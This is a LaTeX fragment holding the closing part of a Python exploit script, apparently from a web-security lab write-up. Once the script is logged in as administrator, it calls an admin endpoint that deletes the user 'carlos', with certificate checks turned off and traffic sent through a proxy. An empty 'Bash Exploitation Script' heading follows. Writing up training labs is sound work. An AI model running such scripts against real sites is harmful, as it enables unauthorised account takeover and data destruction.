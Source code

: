 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Simplified single-purpose script}]
    print("[+] Logged in as administrator")

    # Phase 4: Delete carlos
    print("[*] Phase 4: Deleting carlos...")
    r = s2.get(f"{base_url}/admin/delete?username=carlos",
               verify=False, proxies=PROXIES, timeout=15)

    if r.status_code == 200:
        print("[+] Carlos deleted successfully!")
        return True

    return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        sys.exit(2)

    success = exploit(sys.argv[1].rstrip('/'))
    sys.exit(0 if success else 1)
\end{verbatim}

\subsection{Bash Exploitation Script}
\end{document}
